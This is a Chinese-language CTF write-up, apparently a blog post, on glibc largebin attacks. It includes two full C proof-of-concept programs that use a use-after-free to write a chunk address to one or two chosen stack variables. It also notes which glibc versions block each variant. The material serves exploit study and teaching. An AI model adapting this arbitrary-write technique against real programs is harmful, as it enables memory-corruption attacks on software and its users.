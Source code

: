 ```yaml
---
title: largebin attack
date: 2025-01-21T17:33:23+08:00
type: posts
draft: false
summary: 本文总结一下 largebin 相关的攻击利用方式。
categories:
  - CTF-PWN
tags:
  - ctf
  - linux
  - glibc
  - largebin
  - heap
---
```


本文内容在 [unsortedbin attack] 中总结过，单独拉出来整理一下。

当 chunk 从 unsortedbin 放到 largebin 中时，存在两种利用方式使得修改任意指针内容为 chunk 的地址。

利用时需要布局两个 chunk，一个 chunk 已经在 largebin 中，1个 chunk 还在 unsortedbin 中还未插入 largebin，我将这两个 chunk 分别称做 `p2` 和 `p3`。为了保证 `p3` 插入的 largebin 和 `p2` 是同一个，`p2` 和 `p3` 的大小要在一个 largebin 范围内变换。根据两个 chunk 的大小有不同的利用效果：

- `p2` 比 `p3` 小，可修改一个指针内容为 `p3` 地址
- `p2` 比 `p3` 大，可同时修改两个指针内容为 `p3` 的地址
- `p2` 和 `p3` 一样大，无法利用

利用前提还需要有一个 UAF 洞。使用下面示例分别构造这两种利用场景。

**第 1 种利用：`p2` 比 `p3` 小**

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

使用 glibc 版本为 2.27，运行结果如下：

![largebin_uaf_arb_addr_write_exp_1](largebin_uaf_arb_addr_write_exp_1.png)

这个示例中布局了 3 个 chunk：

- `p1` 是给中间用于避免 chunk 合并的 `malloc` 调用时分隔用的
- `p2` 后面被作为 largebin 中最小的 chunk，UAF 的原因使之可控，即 `fwd->fd` 可控
- `p3` 后面被放到 unsortedbin，在下次 `malloc` 调用时将被合并到和 `p2` 相同的 largebin，且满足 unsorted chunk 大小比 largebin 中最小的 chunk 小

当使用 UAF 修改 `p2->bk_nextsize` 为 `&stack_var1 - 0x20` 后，调用 `malloc` 触发 unsortedbin 分类将 unsorted `p3` 地址写入 `fwd->fd->bk_nextsize + 0x20`，`stack_var1` 的值最终被改为 `p3` 的地址。

试了下新版本 (2.39-0ubuntu8.3) 也可以用。

**第 2 种利用：`p2` 比 `p3` 大**

对之前的代码稍做修改后，便成了第 2 种：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

使用 glibc 2.27 版本运行后同时修改 `stack_var1` 和 `stack_var2` 为 `p3` 地址：

![largebin_uaf_arb_addr_write_exp_2](largebin_uaf_arb_addr_write_exp_2.png)

如果改用新版本 (2.39)，这种方式会失败：

![largebin_uaf_arb_addr_write_exp_2_error](largebin_uaf_arb_addr_write_exp_2_error.png)

因为在 2.30 版本 [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de) commit 中添加了个 `bk_nextsize` 和 `bk` 的校验：

![exp2_fix_commit](exp2_fix_commit.png)

所以这种方式在 2.30 之后失效，只能用第 1 种方式。